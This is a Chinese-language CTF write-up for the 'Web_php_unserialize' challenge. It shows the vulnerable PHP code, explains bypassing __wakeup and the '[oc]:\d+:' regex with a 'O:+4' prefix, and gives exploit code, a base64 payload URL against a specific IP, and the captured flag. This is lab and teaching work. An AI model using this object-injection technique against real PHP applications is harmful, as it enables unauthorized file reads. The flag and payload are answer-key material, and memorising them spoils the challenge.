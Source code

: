 ## Web_php_unserialize
```
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true);     //  输出flag
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php   
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```

-----

### 绕过wakeup 绕过正则

#### 绕过wakeup
要绕过wake up 函数:是在反序列化(unserialize)操作中起作用;
* 绕过：对象的属性个数有关，如果序列化后的字符串中表示属性个数的数字与真实属性个数一致，那么i就调用__wakeup()函数 ,不一致就ok了；

#### 绕过正则

正则表达式模式[oc]:\d+:的含义如下：
* / 和最后的 /i：这两个斜杠是正则表达式的定界符，而末尾的 i 是一个修饰符，表示进行不区分大小写的匹配。
* [oc]：匹配字符o或c。
* :：匹配冒号字符。
* \d+：匹配一个或多个数字。
* :：匹配冒号字符。


这个正则表达式会匹配以 o: 或 c: 开头，后跟一个或多个数字，再后跟一个冒号的字符串，并且匹配是不区分大小写的。例如，它会匹配 "o:123:"、"c:45678:"、"O:987:" 等字符串。


2.要绕过正则表达式模式preg_match('/[oc]:\d+:/i', $var)：

这里为什么过滤的是：‘o：数字’和‘c：数字’呢而且不区分大小写；因为serialize() 的参数为 object ， 参数类型有对象 " O " ， 序列化字符串的格式为 参数格式:参数名长度 ， " O:4 "  字符串会被过滤；


* 绕过：改为‘O:+4’  ：str_replace('O:4', 'O:+4',$C)     代替函数，冲字符串y中寻找'O:4',并替换；
```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}

// if (isset($_GET['var'])) { 
//     $var = base64_decode($_GET['var']); 
//     if (preg_match('/[oc]:\d+:/i', $var)) { 
//         die('stop hacking!'); 
//     } else {
//         @unserialize($var); 
//     } 
// } else { 
//     highlight_file("index.php"); 
// } 

$a = new Demo('fl4g.php');
$b = serialize($a);
var_dump($b);
echo '</br>';
var_dump(base64_encode($b));
echo '</br>';
// O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}
// O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}
$x = 'O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}';
// O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}

$c = str_replace('O:4','O:+4',$b);
$d = str_replace(':1:',':2:',$c);

var_dump(base64_encode($d));
echo '</br>';
var_dump($x);
echo '</br>';
var_dump($d);
echo '</br>';
var_dump($x==$d);
?>
```

### payload
http://61.147.171.105:61295/?var=%22TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==%22

### flag
<?php
$flag="ctf{b17bd4c7-34c9-4526-8fa8-a0794a197013}";
?>